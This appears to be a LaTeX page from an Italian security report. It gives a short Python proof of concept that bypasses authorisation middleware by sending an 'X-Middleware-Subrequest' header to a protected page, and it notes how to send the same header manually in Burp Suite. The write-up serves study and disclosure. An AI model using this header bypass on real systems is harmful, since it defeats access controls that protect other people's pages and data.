 \documentclass[a4paper,oneside,12pt]{report}
\begin{document}
\begin{verbatim}
import requests, sys

protected_page = sys.argv[1] if len(sys.argv) > 1 else "http://localhost:3000/dashboard"

response = requests.get(protected_page, headers={
    'X-Middleware-Subrequest': 'middleware'
}, allow_redirects=False)

# Do stuff with the reponse
\end{verbatim}

Il PoC fornito pu\`o essere eseguito con il comando:
\begin{center}
	\scriptsize
	\texttt{python3 exploit.py [pagina\_protetta]}
\end{center}
ed eseguir\`a una richiesta alla pagina protetta fornita come argomento usando l'header vulnerabile.

\section{\textit{Proof of Concept} (PoC) in Burp Suite}
\label{sec:poc-burp-suite}

\`E possibile anche usare \emph{Burp Suite} per eseguire l'exploit inserendo manualmente l'header nella richiesta.

\begin{figure}[H]
	\centering
	\includegraphics[width=\textwidth]{images/burpsuite_exploit_redirect.png}
	\caption{Richiesta senza header vulnerabile in Burp Suite}
	\label{fig:burpsuite-exploit-redirect}
\end{figure}
\end{document}
